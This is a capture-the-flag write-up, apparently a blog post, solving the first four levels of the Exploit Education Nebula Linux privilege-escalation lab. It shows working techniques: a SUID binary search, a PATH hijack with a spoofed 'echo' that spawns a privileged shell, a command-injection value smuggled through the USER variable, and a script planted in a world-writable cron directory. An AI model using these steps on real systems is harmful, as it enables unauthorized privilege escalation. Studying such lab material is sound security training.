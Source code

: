 ```yaml
---
layout: post
title: "Exploit Education - Nebula"
mathjax: true

date: 2022-01-23
---
```


*Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at SUID files, Permissions. Race conditions, Shell meta-variables, $PATH weaknesses, Scripting language weaknesses
Binary compilation failures.*

<!--more-->

## **Description**

Name: Nebula

Tested: Virtualbox

## **Details**

Machine Link:  https://exploit.education/nebula/

Category:    Exploit Education

## **Solution**

### Level00
Task: This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Solution:

We used `find` to find out suid binaries.

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
```

We found the following specific binaries

```
/bin/.../flag00
/rofs/bin/.../flag00
```

They seem to be same files.

```
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

### Level01
Task: There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

Solution:

We have been given following source code of the program

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

By looking at the `system` command, we can see that `echo` is being called without its absolute path, so we can abuse this. First we create a `echo.c` file in the home directory with following contents

```
#include <stdlib.h>
#include <unistd.h>

int main(){
    setuid(0);
    system("/bin/sh -p");
}
```

Then we compile it to create a spoofed echo program

```
gcc echo.c -o echo
```


Finally, we add our `home` directory in the `PATH` variable using

```
export PATH=:/home/level01/:$PATH
```

This allows us to execute our malicious `echo` program instead of the correct one.

Finally, by running the program, we get a shell with privilege of user `flag01`

```
level01@nebula:~$ ../flag01/flag01
sh-4.2:$ whoami
flag01
sh-4.2:$ getflag
You have successfully executed getflag on a target account
```

### Level02
Task: There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

Solution:

We have been given following source code of the program

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

By looking at the `asprintf` function, it is calling `getenv` to get `USER` value from the `env`. We can call the program with custom `USER` value to do a command injection attack and get the user `flag02` flag.

```
level02@nebula:~$ env USER="1llus1on ; getflag" ../flag02/flag02
about to call system("/bin/echo 1llus1on ; getflag is cool")
1llus1on
You have successfully executed getflag on a target account
```

### Level03
Task: Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes.

Solution:

First, we list files in `/home/flag03` and found the following files

```
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
```

The directory is empty but the shell script contains the following content

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

For each file in the directory,

- ulimit -5 t - allow a maximum of 5 seconds in cpu time
- bash -x "$i" - execute shell script and print commands executed
- rm -f "$i" - force delete file

So we write a script in the `writeable.d` directory and wait for it to be executed. The script contains following content

```
getflag > /home/flag03/myflag
```

Now we wait till cron executes the crontab.

We can also use `watch` command to watch `/writable.d` for when the file is deleted i.e crontab executed.

```
watch ls -l writable.d
level03@nebula:/home/flag03$ ls
myflag  writable.d  writable.sh
level03@nebula:/home/flag03$ cat myflag
You have successfully executed getflag on a target account
```